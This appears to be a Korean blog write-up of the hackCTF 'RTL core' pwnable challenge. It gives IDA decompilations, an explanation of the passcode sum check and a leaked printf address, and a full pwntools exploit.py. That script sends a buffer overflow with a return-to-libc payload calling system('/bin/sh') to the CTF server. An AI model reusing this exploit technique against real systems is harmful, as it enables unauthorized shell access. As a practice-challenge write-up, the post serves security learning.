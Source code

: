 ```yaml
---
layout: post
title:  "[hackCTF]RTL core"
date:   2020-02-18
---
```


hackCTF pwnable 16번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)

## ida - main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+Ch] [ebp-1Ch]

  setvbuf(_ bss_start, 0, 2, 0);
  puts(&::s);
  printf("Passcode: ");
  gets(&s);
  if ( check_passcode((int)&s) == hashcode ) // hashcode = 0x0C0D9B0A7
  {
    puts(&byte_8048840);
    core();
  }
  else
  {
    puts(&byte_8048881); // "실패!" 출력
  }
  return 0;
}
```

## ida - core
```c
ssize_t core()
{
  int buf; // [esp+Ah] [ebp-3Eh]
  int v2; // [esp+Eh] [ebp-3Ah]
  __ int16 v3; // [esp+12h] [ebp-36h]
  int v4; // [esp+38h] [ebp-10h]
  void * v5; // [esp+3Ch] [ebp-Ch]

  buf = 0;
  v2 = 0;
  v4 = 0;
  memset(
    (void * )((unsigned int)&v3 & 0xFFFFFFFC),
    0,
    4 * (((unsigned int)((char * )&v2 - ((unsigned int)&v3 & 0xFFFFFFFC) + 46) & 0xFFFFFFFC) >> 2));
  v5 = dlsym((void *)0xFFFFFFFF, "printf"); // printf의 주소를 v5에 저장한다
  printf(&format, v5);
  return read(0, &buf, 0x64u); // 취약점!
}
```

## ida - check_passcode
```c
int __cdecl check_passcode(int a1)
{
  int v2; // [esp+8h] [ebp-8h]
  signed int i; // [esp+Ch] [ebp-4h]

  v2 = 0;
  for ( i = 0; i <= 4; ++i )
    v2 += * (_ DWORD * )(4 * i + a1);
  return v2;
}
```

check_passcode 함수의 결과가 hashcode와 동일했을 때 core 함수가 실행된다. 우선 check_passcode 함수를 분석해서 hashcode와 일치하는 값을 만들자.<br><br><br>
check_passcode 함수에서 a1은 문자열의 주소 값이다. v2는 a1의 4byte int 값, a1+4의 int값 ... a1+16의 int값을 더한 값이 된다. 그럼 hashcode int 값을 5개의 숫자의 값을 더하면 나올 수 있도록 5개의 int 값을 만들자. 5개의 int 값을 문자열로 패킹해서 payload(밑의 exploit.py에선 passcode)로 이어붙이자.<br><br><br>
![1601](https://drive.google.com/uc?id=1_kPqoebU5Aw4mNrXGRW-qKHWaqFKxVrC)<br>
core 함수를 보면 알 수 있듯이 passcode를 정확히 입력하면 printf의 주소를 출력한다. ASLR이 적용되어 있으므로 printf와 다른 값들의 offset을 구해 RTL기법의 payload를 작성하자. libc를 제공하므로 printf, system, "/bin/sh"의 offset을 구할 수 있다.


## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3015)
libc = ELF('./libc.so.6')

printf_offset = libc.symbols['printf']
system_offset = libc.symbols['system']
binsh_offset = list(libc.search('/bin/sh'))[0]

passcode = ""

# passcode

for i in range(4) :
        passcode += p32(0x2691f021)
passcode += p32(0x2691f023)

p.recvuntil("Passcode: ")

p.sendline(passcode)

# payload

p.recvuntil("0x")

printf_addr = int(p.recv(8), 16)

system = printf_addr + (system_offset - printf_offset)

binsh = printf_addr + (binsh_offset - printf_offset)

payload = "A"*(0x3E+0x4) + p32(system) + "AAAA" + p32(binsh)

p.send(payload)

p.interactive()
```

## 결과
![1602](https://drive.google.com/uc?id=1ZmxOIzBHfmX-_kGcSrwPUwik3XGzZorY)
